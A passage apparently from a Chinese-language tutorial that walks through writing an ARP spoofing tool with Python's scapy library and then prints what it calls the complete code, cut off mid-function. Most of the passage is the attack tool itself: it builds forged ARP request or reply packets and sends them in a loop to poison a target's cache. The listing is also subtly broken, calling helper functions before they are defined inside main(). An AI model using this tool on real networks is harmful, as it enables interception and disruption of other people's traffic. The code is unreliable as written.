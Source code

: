 build_rep()方法和build_req()方法基本相同，注意Ether的dst参数和ARP的op参数（op=2为arp响应包）。

```Python
while True:

        sendp(pkt, inter=2, iface=options.interface)
```

数据包构造完毕之后，就可以循环发送直到达到欺骗目的。因为构造的是以太网数据包，所以使用sendp()方法来对外发送。

目前为止，我们已经编写了一个完整的ARP欺骗工具，完整代码如下：

```Python
# -*- coding: UTF-8 -*-
import sys
import os
import time
from optparse import OptionParser
from scapy.all import (
    get_if_hwaddr,
    getmacbyip,
    ARP,
    Ether,
    sendp
)

def main():
    try:
        if os.geteuid() != 0:
            print("[-] 请以root权限运行本程序")
            sys.exit(1)
    except Exception as msg:
        print(msg)

    usage = 'Usage: %prog [-i interface] [-t target] host'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='请指定网卡')
    parser.add_option('-t', dest='target', help='请指定要欺骗的目标主机')
    parser.add_option('-m', dest='mode', default='req', help='毒化模式: requests (req) or replies (rep) [default: %default]')
    parser.add_option('-s', action='store_true', dest='summary', default=False, help='显示数据包发送信息')
    (options, args) = parser.parse_args()
    print
    if len(args) != 1 or options.interface is None:
        parser.print_help()
        sys.exit(0)
    mac = get_if_hwaddr(options.interface)
    print('本机mac地址是%s' %mac)
    
    if options.mode == 'req':
        pkt = build_req()
    elif options.mode == 'rep':
        pkt = build_rep()

    if options.summary is True:
        pkt.show()
        ans = input('\n[*] 是否继续? [Y|n]: ').lower()
        if ans == 'y' or len(ans) == 0:
            pass
        else:
            sys.exit(0)
    
    def build_req():#构造请求数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], pdst=args[0])
```